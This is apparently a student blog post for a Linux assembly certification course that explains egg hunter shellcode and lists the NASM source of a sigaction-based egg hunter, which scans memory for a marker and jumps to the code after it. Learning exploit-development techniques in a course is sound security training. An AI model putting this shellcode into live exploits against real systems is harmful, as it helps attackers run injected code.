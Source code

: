 # Assignment #3: Egg Hunter Shellcode 

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-858


### Exercise
- Study about the egg hunter shellcode
- Create a working demo of the Egghunter
- Should be configurable for different payloads


### Solution

First, What is an EggHunter shellcode?

A EggHunter is a little program that It is used to find a "pattern". In our case of study, our egghunter look for the *pattern* because after is the *shellcode*. It is very important and useful when we don't know where is the shellcode. So the egghunter program will look in all the memory position to find the "EGG" and run the shellcode.


Exists multiple ways to do an egghunter shellcode, but the best way is read all the memory position to find it. 


```nasm
global _start

_start:

align_page:
    or cx,0xfff         ; page alignment


next_address:
    inc ecx
    push byte +0x43     ; sigaction(2)
    pop eax             
    int 0x80            
    cmp al,0xf2         ; EFAULT?
    jz align_page       
    mov eax, 0x50905090 
    mov edi, ecx        
    scasd               
    jnz next_address    
    scasd               
    jnz next_address    
    jmp edi  
```
